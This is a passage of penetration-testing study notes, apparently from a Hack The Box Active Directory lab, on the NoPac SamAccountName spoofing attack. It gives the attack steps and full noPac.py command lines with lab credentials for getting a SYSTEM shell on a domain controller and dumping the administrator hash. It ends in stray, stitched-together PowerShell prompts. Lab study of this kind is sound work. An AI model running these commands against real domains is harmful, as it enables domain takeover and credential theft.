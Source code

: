 ```powershell
       Renew Time: 7/5/2022 13:24:37 (local)
       Session Key Type: AES-256-CTS-HMAC-SHA1-96
       Cache Flags: 0x1 -> PRIMARY
       Kdc Called: DC01
```

## **Bleeding Edge Vulnerabilities**

## **NoPac (SamAccountName Spoofing)**

CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287),&#x20;

**By default, every authenticated user can add up to ten computers to the Domain. The following steps explain how to perform this attack.**

* Create a new account in Active Directory with a random name and then rename it to one of the Domain Controllers without the trailing “$” symbol.
* Request a Kerberos ticket for the created account. Once the ticket is granted, change the name of the account created back to its original name (i.e., the random name chosen in the first step).
* Use the ticket to request an access token from the TGS for a specific service. Because of the absence of an account with that name, the TGS chooses the closest match and appends a “$” symbol. In this way, access to the service is granted with Domain Controller privileges.

another explaination

authenticated users can add up to [ten computers to a domain](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/add-workstations-to-domain). When doing so, we change the name of the new host to match a Domain Controller's SamAccountName. Once done, we must request Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name. When a TGS is requested, it will issue the ticket with the closest matching name. Once done, we will have access as that service and can even be provided with a SYSTEM shell on a Domain Controller.&#x20;

Exploit

* Make sure we have impacket installed in our attacking linux
* then install Nopac exploit repo [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)
* `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` → checking if target is vulnerable
* `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` → executing the exploit to get shell.

#### **Using noPac to DCSync the Built-in Administrator Account**

* `dollarboysushil@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator`

## **PrintNightmare**


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist